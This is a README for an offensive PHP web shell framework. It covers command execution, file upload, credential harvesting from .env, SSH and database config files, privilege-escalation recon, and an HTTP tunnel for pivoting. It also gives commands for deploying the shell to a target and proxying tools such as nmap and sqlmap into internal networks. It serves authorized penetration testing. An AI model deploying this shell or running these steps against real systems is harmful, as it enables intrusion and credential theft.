# Shells-X

[](LICENSE)
[](https://www.python.org/)
[](https://www.php.net/)
[](https://github.com/vektor-x-com/Shells-X)
[](https://github.com/vektor-x-com/Shells-X)
[](https://github.com/vektor-x-com/Shells-X)

A modular, single-file web shell framework with a build generator. Source modules are developed separately — deployment is always one file. Every build gets a unique SHA256 fingerprint and a unique randomized color palette.



> **Disclaimer:** This tool is intended for authorized penetration testing, red team operations, CTF competitions, and security research only. Unauthorized access to computer systems is illegal. Always obtain proper authorization before use.

---

## What's in the box

| | |
|---|---|
| **PHP Console** | Execute PHP with fatal-error recovery, configurable timeout, terminal-stream output, history navigation |
| **OS Shell** | Auto-detected command execution (probes `system` / `exec` / `shell_exec` / `passthru` / `popen` / `proc_open`), persistent CWD, history |
| **File Browser** | Navigate, download, upload, delete. Shows permissions, owner:group, symlink targets, R/W flags |
| **Port Scanner** | Server-side parallel TCP/UDP scanner with banner grab, TLS cert inspection, service fingerprinting. Up to 512 concurrent connects |
| **System Diagnostics** | 30+ pure-PHP recon checks for privesc, network pivoting, credential harvesting — works even when all exec is disabled |
| **Framework Detection** | Auto-detects 15+ CMS/frameworks (WordPress, Laravel, Joomla, Drupal, Symfony, Magento, etc.) with version + DB creds + debug mode + admin paths |
| **WebTun** | Multiplexed HTTP tunnel with SOCKS5 proxy and port forwarding — hundreds of channels over one HTTP connection |
| **Faraday Export** | One-click recon export to [Faraday VM](https://github.com/infobyte/faraday) — hosts, services, hostnames, descriptions + credentials CSV |
| **Self-Destruct** | One click → `unlink(__FILE__)` on the server, IndexedDB + sessionStorage wiped on the operator side |
| **Traffic Encryption** | AES-256-CBC over all request/response payloads when `--password` is set, key derived from login password |
| **Auto-Randomized Themes** | Every build gets a unique HSL-derived palette by default, or pick from 16 named presets |

---

## Quick Start

```bash
# Default build — random theme, no password, no tunnel
python3 generate.py

# Password-protected with tunnel embedded
python3 webtun/webtun.py --generate -k tunnelpass
python3 generate.py --tunnel webtun/webtun_servers/tunnel.php --password s3cret --minify

# Slim build — drop modules you don't need
python3 generate.py --exclude tunnel,scanner,history

# Named color theme, custom accent, reproducible build
python3 generate.py --theme synth --seed op-nighthawk

# Verify integrity of a deployed build
python3 generate.py --verify dist/shell_a3f8c1e2.php
```

Output lands in `dist/`. Deploy the single `.php` file to a web server.

### Generator Options

| Flag | Description |
|------|-------------|
| `--password SECRET` | SHA256 password gate (plaintext never stored) — also enables AES-256-CBC traffic encryption |
| `--tunnel FILE` | Embed tunnel PHP (WebTun or Neo-reGeorg) |
| `--seed STRING` | Operator seed → deterministic fingerprint + palette |
| `--minify` | Strip comments, collapse whitespace |
| `--exclude MODULES` | Comma-separated: `tunnel`, `diagnostics`, `history`, `scanner`, `faraday` (core modules like `shell` cannot be excluded) |
| `--theme NAME` | One of 16 presets — see [Theming](#theming) |
| `--accent COLOR` | Custom accent hex (e.g. `"#ff6600"`), overrides theme accent |
| `--output NAME` | Custom output filename |
| `--verify FILE` | Check integrity of a generated shell |

---

## Authentication & Encrypted Transport

When `--password` is set, the shell renders a login screen instead of the main UI. The login form captures the password hash into `sessionStorage`, then every subsequent `fetchJSON` call encrypts the FormData with AES-256-CBC and decrypts the response. File downloads and uploads bypass encryption.



- Password is stored as SHA256 hash, plaintext never embedded
- Encryption key derives from `SHA256(password)` — no extra flag needed
- New tab or cleared `sessionStorage` re-prompts for the passphrase
- Requires Web Crypto API (HTTPS or localhost) and PHP OpenSSL extension

Logout: `http[s]://SHELL_URL/?logout`.

---

## PHP Console + OS Shell

Both consoles share the same terminal-stream UI — append-only output with separators between executions, syntax-highlighted command echo, Ctrl+L to clear, Ctrl+↑/↓ for history. The PHP console takes multi-line input (Shift+Enter for newlines, Enter to submit); the OS shell tracks the working directory across commands.



Snippet buttons (`scandir`, `/etc/passwd`, `phpinfo`, `uname`, `traceroute`) common one-liners into the PHP input. History is persisted to IndexedDB so Ctrl+↑ recalls commands from previous sessions, not just the current page load.

Feature `traceroute` added which uses php sockets extension (if available) to count hops by fuzzing TTL numbers, so you can define the scanned port you see, is a port forward or it's actually the host port.
---

## File Browser

Walk the filesystem, peek at permissions and ownership, upload files via multipart POST, delete with confirmation, follow symlinks.



- Click a row to navigate into a directory
- Inline R/W flags so you can spot writable paths at a glance
- Numeric uid/gid shown when the container's `/etc/passwd` doesn't know the owner

---

## Port Scanner

Server-side parallel scanner — no tunnel overhead, no SOCKS5. Direct `stream_socket_client()` from the web server to targets, batched via `stream_select` for true parallelism. Pause/resume/stop controls, results stored in IndexedDB, per-scan `↑ Faraday` button to export the results.



- TCP + UDP scanning with up to 512 concurrent connections
- Banner grab + service fingerprinting (SSH, HTTP, MySQL, Redis, PostgreSQL, …)
- TLS cert inspection (CN, issuer, validity, SANs, self-signed flag)
- CIDR notation, IP ranges, port lists/ranges, presets (tcp-small/big/huge, udp-small/big)
- Per-port-list hint boxes showing what each preset actually covers
- Live progress with open / closed / filtered counters

For network discovery, this scanner is faster and more accurate than running nmap through the SOCKS tunnel. For interactive tool access, use the tunnel with `-L` port forwards instead.

---

## System Diagnostics

30+ pure-PHP recon checks. Everything is read from `/proc`, `stat()`, `fileperms()`, and filesystem reads — works even when all exec functions are disabled.

|  |  |
|---|---|
|  |  |



### What it surfaces

**System & Identity** — PHP config, disable_functions, open_basedir; UID/GID + supplementary groups; container detection (Docker / Podman / Kubernetes / LXC via cgroups, `/.dockerenv`, PID 1); `/etc/passwd` users with real shells; privileged group memberships (sudo, wheel, docker, lxd, adm, shadow, disk).

**Network** — Listening TCP ports (IPv4+IPv6) with UID and process correlation, IPv4-mapped IPv6 detection, loopback-vs-network-reachable classification; ARP table (filters incomplete entries); routing table with gateway + mask + metric.

**Privilege Escalation** — SUID/SGID binaries with GTFOBins lookup; Linux capabilities (decoded CapEff/CapBnd with dangerous-cap highlighting); cron jobs + writable-script detection across `/etc/crontab`, `cron.d`, user crontabs; sudoers + sudoers.d contents; Docker/Podman socket readability/writability; mount points with `nosuid` / `noexec` / `ro` flags; kernel info (version, arch, ASLR state); SELinux / AppArmor / Seccomp posture; `/etc/ld.so.preload`; NFS exports with `no_root_squash` detection; systemd timers + writable `ExecStart` targets.

**Credentials & Files** — SSH keys (rsa/ed25519/ecdsa), authorized_keys, host keys; shadow, sudoers, bash/zsh history; `.env` files across web roots; `.my.cnf`, `debian.cnf`, `.pgpass`; framework config files (wp-config.php, database.yml, etc.); backup files (`.bak`, `.sql`, `.swp`); writable system paths.

**PHP Execution Analysis** — 18 dangerous functions probed individually + FFI; useful extensions; indirect exec vectors when all direct exec is disabled (mail `-X`, error_log type 3, `fsockopen` reverse shells, FFI libc calls); available interpreters & tools (python, perl, ruby, gcc, nmap, curl, wget, socat, …); 19+ hosting panels (cPanel, Plesk, aaPanel, CloudPanel, DirectAdmin, HestiaCP, ISPConfig, …).

**Framework Detection** — Auto-detects WordPress, Laravel, Joomla, Drupal, Symfony, CodeIgniter, Magento 1/2, PrestaShop, Nextcloud/OwnCloud, phpBB, MediaWiki, Moodle, CakePHP, Yii2 with version + extracted DB credentials + debug mode + admin path.

---

## Faraday Export

One-click export of all collected recon into a [Faraday Vulnerability Manager](https://github.com/infobyte/faraday) workspace. Recon-only — no Vulnerability entities are emitted, the Vulnerability view stays clean for actual testing work.


Each export produces **two files**:

1. **`shells-x-*.json`** — uploaded with `faraday-cli tool report <json> --plugin-id Faraday_JSON`. Contains hosts (with hostnames, MAC, OS), services (open ports with banner / version / TLS info), and rich host descriptions covering posture (kernel, capabilities, security modules), privesc surface (sudoers NOPASSWD, writable cron scripts, ld.so.preload, NFS no_root_squash, docker socket, writable systemd timers), backup files, mounts with flags, routing, and framework details.

2. **`shells-x-*-credentials.csv`** — imported via the Faraday UI → Credentials view → "Import CSV" button. Contains every `KEY=value` from `.env` files, plus parsed credentials from `wp-config.php` / `.my.cnf` / `.pgpass` / `database.yml` / Magento `env.php`, plus framework-extracted `db_*` fields. The `endpoint` column preserves provenance: `<host IP> :: <source file path>`.

> Why two files? Faraday's `faraday_json` plugin and the server-side `bulk_create` endpoint both silently drop credential arrays. The dedicated `POST /credential/import_csv` UI flow is the only programmatic path that actually persists Credentials.

Export buttons:
- **Per-scan** — `↑ Faraday` button on each scan card → just that scan's open ports
- **Diagnostics only** — `↑ Faraday` button on the Diagnostics page → posture snapshot of the shell host
- **All** — sidebar `↑ Faraday export` button → scans + diagnostics merged

---

## Tunnel & Pivoting

Shells-X includes **WebTun** — a multiplexed HTTP tunnel that creates a SOCKS5 proxy through the compromised host. Unlike traditional SOCKS5-over-HTTP tunnels (Neo-reGeorg, reGeorg), WebTun multiplexes all channels over a single HTTP connection with binary framing, encrypted transport, and real-time streaming. This eliminates the per-connection overhead that causes false positives/negatives in port scanning and fuzzing.



### Why WebTun over Neo-reGeorg?

| | Neo-reGeorg | WebTun |
|--|-------------|--------|
| Connections | 1 HTTP request per TCP connection | All channels multiplexed over 1 connection |
| Downstream | Client polls for data | Real-time streaming (flush) |
| Upstream | 1 POST per write | Batched POSTs (multiple frames per request) |
| PHP-FPM workers | 1 per active connection | 1 total for all channels |
| Scanning accuracy | False positives/negatives from timeouts | Accurate open/closed/filtered states |
| Fuzzing | ~5-50 req/s, unreliable | ~200-500 req/s, clean results |
| Hardened hosts | Requires exec for some features | Only needs `stream_socket_client` + `stream_select` |
| Encryption | Basic XOR | AES-256-CBC + HMAC-SHA256 |

### Setup

```bash
# 1. Generate tunnel server with password
python3 webtun/webtun.py --generate -k mypassword

# 2. Build shell with tunnel embedded
python3 generate.py --tunnel webtun/webtun_servers/tunnel.php --password shellpass

# 3. Deploy shell.php to target, then connect from attacker machine
python3 webtun/webtun.py -u https://target.com/shell.php -k mypassword --socks 1080
```

Attacker-side deps (`aiohttp` + `cryptography`):
```bash
cd webtun && python3 -m venv .venv && source .venv/bin/activate && pip install -r requirements.txt
```

### Port forwarding vs SOCKS5 — when to use which

Port forwarding (`-L`) creates a direct TCP pipe — your tool connects to a local port, bytes flow straight through the tunnel to the target. No SOCKS handshake, no proxychains, no `LD_PRELOAD` hooking. The tool doesn't even know it's going through a tunnel. **Always faster and more reliable** than SOCKS5 for targeted access.

SOCKS5 adds a per-connection negotiation layer and requires the tool to support SOCKS or be wrapped with proxychains. Use it only when you need dynamic destination routing (subnet scanning, browsing multiple hosts).

| Use case | Best approach | Why |
|----------|--------------|-----|
| Hit one specific service (MySQL, Redis, web app) | `-L` port forward | Zero overhead, tool works natively |
| Fuzz one web app | `-L 8080:target:80` + ffuf on localhost | ffuf gets a clean TCP pipe, full speed |
| Scan a known host's ports | `-L` or built-in scanner | No SOCKS negotiation per probe |
| Scan an entire subnet | SOCKS5 (`--socks`) | Can't pre-define `-L` for 254 hosts |
| Browse multiple internal sites | SOCKS5 + browser | Dynamic destinations |
| Tool doesn't support SOCKS | `-L` port forward | Works with literally everything |

Combine both in one session:

```bash
python3 webtun/webtun.py -u https://target.com/shell.php -k mypassword \
  --socks 1080 \
  -L 8080:internal-web:80 \
  -L 13306:db-server:3306 \
  -L 16379:cache:6379
```

### Port forwarding examples

```bash
python3 webtun/webtun.py -u https://target.com/shell.php -k mypassword \
  -L 13306:10.0.0.5:3306 \
  -L 16379:10.0.0.5:6379 \
  -L 8080:internal-web:80

# Connect directly — no proxy config needed, works with any tool
mysql -h 127.0.0.1 -P 13306 -u root -p
redis-cli -p 16379
curl http://127.0.0.1:8080/
sqlmap -u "http://127.0.0.1:8080/page?id=1" --batch
ffuf -u http://127.0.0.1:8080/FUZZ -w wordlist.txt
ssh -p 2222 user@127.0.0.1   # with -L 2222:10.0.0.1:22
```

### SOCKS5 proxy examples

```bash
python3 webtun/webtun.py -u https://target.com/shell.php -k mypassword --socks 1080

# curl — use socks5h:// to resolve DNS through the tunnel
curl --proxy socks5h://127.0.0.1:1080 http://internal-app/
curl --proxy socks5h://127.0.0.1:1080 http://10.0.0.5:8080/api/health

# fuzzing
ffuf -u http://10.0.0.5/FUZZ -w wordlist.txt -x socks5://127.0.0.1:1080
gobuster dir -u http://10.0.0.5 -w wordlist.txt --proxy socks5://127.0.0.1:1080

# browser
chromium --proxy-server="socks5://127.0.0.1:1080"

# ssh
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' user@10.0.0.5
```

### Nmap through the tunnel

Nmap uses `--proxies` (plural) with `socks4://` — it does NOT support `socks5://` or the `--proxy` flag.

```bash
# Subnet scan
nmap -sT -Pn -n --proxies socks4://127.0.0.1:1080 10.0.0.0/24 -p 80,443,3306,6379,8080

# Service detection on specific host
nmap -sT -Pn -n --proxies socks4://127.0.0.1:1080 10.0.0.5 -p 1-1000 -sV
```

| Flag | Why |
|------|-----|
| `-sT` | TCP connect scan — only type that works through SOCKS |
| `-Pn` | Skip host discovery — ICMP can't traverse SOCKS |
| `-n` | No DNS resolution — internal hostnames won't work. For hostname resolution through the tunnel, use curl with `socks5h://` instead |
| `--proxies socks4://` | Nmap's required format. NOT `--proxy`, NOT `socks5://` |

### WebTun client options

| Flag | Description |
|------|-------------|
| `-u URL` | Shell URL |
| `-k KEY` | Tunnel password |
| `--socks PORT` | SOCKS5 listen port (default: 1080, 0 to disable) |
| `-L local:host:port` | Port forward (repeatable) |
| `--upstream-pool N` | Upstream HTTP connections (default: 3) |
| `--batch-ms MS` | Upstream batching window in ms (default: 5) |
| `--no-verify-ssl` | Skip TLS certificate verification |
| `-v` | Debug logging |

### Legacy: Neo-reGeorg

Still supported via the same `--tunnel` flag:

```bash
python3 neoreg.py -g -k mypassword
python3 generate.py --tunnel neoreg_servers/tunnel.php --password shellpass
python3 neoreg.py -u https://target.com/shell.php -k mypassword --skip
```

---

## Theming

Every build automatically gets a unique, randomized color palette — no two shells look the same by default. Colors are derived from a random hue using HSL color space, keeping semantic colors (green/red/yellow for success/error/warning) fixed for usability.

```bash
python3 generate.py                            # Random hue (default)
python3 generate.py --seed "op-nighthawk"      # Deterministic — same seed = same palette
python3 generate.py --theme synth              # Named preset
python3 generate.py --theme mono --accent "#00ff88"   # Preset + accent override
```

**Hue-derived presets** (HSL recipe): `cyber`, `matrix`, `amber`, `synth`, `arctic`, `sodium`, `viridian`, `rust`, `ultra`, `plasma`

**Legacy hand-crafted**: `ocean`, `crimson`, `forest`, `purple`, `mono`, `solar`

---

## Self-Destruct

A red button at the bottom of the sidebar permanently destroys the shell:

1. Sends `action=destruct` → PHP calls `unlink(__FILE__)` + `session_destroy()`
2. JS clears IndexedDB (`shelldb`), `sessionStorage`, operator-side localStorage prefixes (`faraday.*`, `webtun.*`)
3. Page is replaced with a "Shell destroyed" message

Double-confirmation prompt prevents accidental triggering. Always present regardless of which modules are excluded or whether auth is enabled.

---

## Build Fingerprint

